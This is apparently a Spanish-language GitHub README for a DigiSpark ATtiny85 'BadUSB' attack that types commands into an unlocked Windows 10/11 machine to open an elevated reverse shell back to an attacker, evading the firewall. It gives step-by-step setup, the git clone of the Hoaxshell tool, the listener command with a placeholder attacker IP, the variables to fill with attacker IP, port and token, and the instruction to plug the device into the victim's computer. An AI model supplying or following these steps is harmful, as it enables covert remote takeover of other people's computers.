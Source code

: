 ## 📝 Descripción
> Script para **DigiSpark ATtiny85** que genera una shell inversa con permisos elevados desde una máquina Windows víctima hacia una máquina atacante, logrando evadir el firewall. 


## ⚙️ Funcionamiento
> El ataque se activa al conectar el dispositivo al puerto USB con la sesión iniciada: el DigiSpark emula un teclado e inyecta los comandos de forma automática, sin intervención del usuario, estableciendo la conexión con la máquina atacante la cual está escuchando solicitudes.


## 💻 Compatibilidad 
> Solo funciona correctamente bajo las siguientes condiciones:
- **Sistema operativo victima**: Windows 10/11
- **Sesión activa**: Escritorio desbloqueado y sesión iniciada
- **Distribucion de teclado victima**: Español Latam (Puedes configurar otra distribución siguiendo un paso adicional.)

 
## ✅ Requerimientos
1. Tener instalado Arduino IDE [Ver Arduino IDE](https://www.arduino.cc/en/software/)
2. Instala los drivers que se encuentran en la carpeta config del repositorio (también puedes buscarlos manualmente si lo prefieres)
3. Descargar e instalar DigiStump Board 1.6.7 a traves del Boards Manager de Arduino (Configuración de Arduino)
```
   https://raw.githubusercontent.com/digistump/arduino-boards-index/refs/heads/master/package_digistump_index.json
```
<img width="1006" height="672" alt="imagen" src="https://github.com/user-attachments/assets/8a467877-c94f-439b-af3d-14c5fcf3aba8" />

4. Este script fue creado para cambiar distribuciones de teclado, y es por esto que para que funcione debes copiar la carpeta DigisparkKeyboard del repositorio y pegarla en la siguiente ruta:
```
C:\Users\tu_usuario\AppData\Local\Arduino15\packages\digistump\hardware\avr\1.6.7\libraries\
```
*Con esto podremos cambiar la linea #define kbd_es_es del script .ino para usar la distribucion de teclado que gustes.*

5. Descargar e instalar la herramienta Hoaxshell de su repositorio oficial (Seguir los pasos del repositorio):
```
git clone https://github.com/t3l3machus/hoaxshell
```


## 🚀 Uso

### 1. Ejecutar Hoaxshell.py, copiar el token generado en $i y dejar ejecutandose.
```python
python3 ./hoaxshell.py -s IP_ATACANTE -r -H 'Authorization'
```
![image](https://github.com/user-attachments/assets/8da49bb0-b57a-4613-9a5a-1bc4f6299157)


### 2. Abrir Arduino y seleccionar Digispark 16.5 Board.
<img width="858" height="131" alt="imagen" src="https://github.com/user-attachments/assets/3de241e0-7181-44e2-aa3a-a96a26e3e4c1" />

### 3. Dentro de Arduino, abrir el archivo .ino que se encuentra en la carpeta script del repositorio y modificar las siguientes variables:


- IP_AND_PORT_ATTACKER: Reemplazar por tu IP y puerto de atacante
- TOKEN: Reemplazar por el token generado por hoaxshell
- TOKEN_PART1: Reemplazar con la primera parte del token
- TOKEN_PART2: Reemplazar con la segunda parte del token
- TOKEN_PART3: Reemplazar con la tercera parte del token
- Opcional:  #define kbd_es_es Puedes cambiar esta linea revisando las opciones en config/DigisparkKeyboard/Readme.md

![image](https://github.com/user-attachments/assets/9418035f-eaa7-4b05-ae3b-a7bd19dd68d6)



### 3) Compilar el script y conectar el ATTINY 85. Una vez hecho esto, el USB estara listo para el ataque.
<img width="2531" height="1378" alt="imagen" src="https://github.com/user-attachments/assets/6d478ecd-7554-4342-a291-28438e7848d8" />


### 4) Conectar el dispositivo a la máquina victima y esperamos la respuesta en nuestra máquina de atacante.

   
![image](https://github.com/user-attachments/assets/5c8ce65b-5abe-4dae-a521-7f1f90dc95a5)




